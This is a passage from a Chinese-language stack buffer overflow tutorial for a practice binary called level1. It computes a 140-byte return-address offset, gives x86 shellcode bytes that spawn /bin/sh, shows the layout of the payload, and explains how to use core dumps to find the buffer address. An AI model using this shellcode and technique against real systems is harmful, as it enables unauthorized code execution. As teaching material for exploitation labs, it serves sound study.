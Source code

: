 ``` bash
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个`”A”*140+ret`字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段`shellcode`，可以用`msf生成`，或者自己反编译一下。

``` c
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|
```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是`gdb的调试环境会影响buf在内存中的位置`，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启`core dump`这个功能。

``` bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。这里的核心转储只在`当前终端下有效`，关闭终端自动恢复默认状态(关闭)。

如果想让核心转储功能`永久开启`，可以修改文件/etc/security/limits.conf ，增加一行：

```
#<domain> <type> <item> <value>
    *      soft   core  unlimited
```

通过修改 /proc/sys/kernel/core_uses_pid ，可以使生成的核心转储文件名变为 `core.[pid]` 的模式。

``` bash
echo 1 > /proc/sys/kernel/core_uses_pid
```
